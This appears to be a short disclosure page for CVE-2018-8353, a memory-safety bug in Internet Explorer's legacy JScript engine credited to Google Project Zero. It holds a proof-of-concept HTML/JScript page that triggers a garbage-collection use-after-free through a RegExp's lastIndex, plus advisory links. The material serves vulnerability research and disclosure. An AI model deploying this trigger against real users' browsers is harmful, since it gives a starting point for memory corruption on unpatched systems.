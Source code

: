 # CVE-2018-8353

- Report: Jun 2018
- Fix: Aug 2018
- Credit: ifratric of Google Project Zero

## PoC

```html
<meta http-equiv="X-UA-Compatible" content="IE=8"></meta>
<script language="Jscript.Encode">
 
alert('start');
 
var vars = [];
 
var r = new RegExp();
 
for(var i=0; i<20000; i++) {
  vars[i] = "aaaaa";
}
r.lastIndex = "aaaaa";
for(var i=20000; i<40000; i++) {
  vars[i] = "aaaaa";
}
 
vars.length = 0;
 
CollectGarbage();
 
alert(r.lastIndex);
 
alert('failed');
 
</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8353)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1587)
